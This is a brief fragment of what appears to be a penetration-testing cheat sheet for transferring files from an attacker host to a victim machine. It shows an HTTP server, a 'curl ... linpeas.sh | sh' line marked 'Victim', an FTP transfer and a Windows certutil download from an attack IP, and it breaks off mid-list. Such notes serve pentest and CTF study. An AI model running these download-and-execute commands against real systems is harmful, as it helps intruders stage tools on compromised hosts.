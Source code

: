 
HTTP 
```
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```
FTP
```
python -m pyftpdlib 21 #Host
ftp <ip> #Victim
```
**Windows**
Certutil
```
certutil.exe -urlcache -f http://<attack IP>/<file> <file name>
```
**Linux**
```
wget